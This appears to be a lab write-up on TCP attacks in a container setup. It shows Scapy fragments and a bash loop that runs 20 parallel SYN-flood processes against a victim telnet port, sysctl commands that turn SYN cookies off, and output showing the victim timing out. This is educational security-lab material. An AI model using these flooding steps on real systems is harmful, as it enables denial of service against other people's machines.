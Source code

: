 # TCP Attacks
## Containers setup
- run in each the following line replacing `role` with what the container is, just to recognize them easier from the prompt
  - ```echo 'PS1="role | $PS1"' >> ~/.bashrc```

# Task 1: SYN Flooding Attack
## 1.1 $-$ With python
### Notes
| desc | command |
| --- | --- |
| see queue size for connections | `sysctl net.ipv4.tcp_max_syn_backlog` |
| edit queue size | `sysctl -w net.ipv4.tcp_max_syn_backlog=80` |
| check usage of queue (look for SYN-RECV, number of half-opened connections) | `netstat -nat` |

### On SYN cookie countermeasue
enabled by default, we can change it:
```bash
$ sysctl -a | grep syncookies # Display the SYN cookie flag 
$ sysctl -w net.ipv4.tcp_syncookies=0 # turn off SYN cookie
$ sysctl -w net.ipv4.tcp_syncookies=1 # turn on SYN cookie
```

### Solving
- set IP destination and port (the victim machine and the tcp port on which it's listening, which we found with `netstat -nat`)
  ```python
  ip = IP(dst="10.9.0.5")
  tcp = TCP(dport=23, flags='S')
  ```
- launch the python script from the attacker and monitor the recv queue on the victim
  ```bash
  # Attacker
  python3 synflood.py
  # === 
  # Victim
  watch -n 0.5 netstat -nat
  ```
- working just this way we are still able to telnet to the victim machine
- but if we try to run 20 parallel instances of the python script we can already see that we have a much greater to delay to get our telnet connection accepted:
  ```bash
  # run 10 parallel instances of the program
  for i in {1..20}
  do 
    python3 synflood_draft.py & 
  done

  # kill all the flooding scripts' processes 
  kill -9 `ps aux | grep -i flood | awk '{print $2}' | paste -s`
  ```
- with 20 parallel processes we were able to flood the victim leading to telnet timeout:
  ```
  attacker | root@docker-desktop:/# telnet 10.9.0.5
  Trying 10.9.0.5...
  telnet: Unable to connect to remote host: Connection timed out
  ```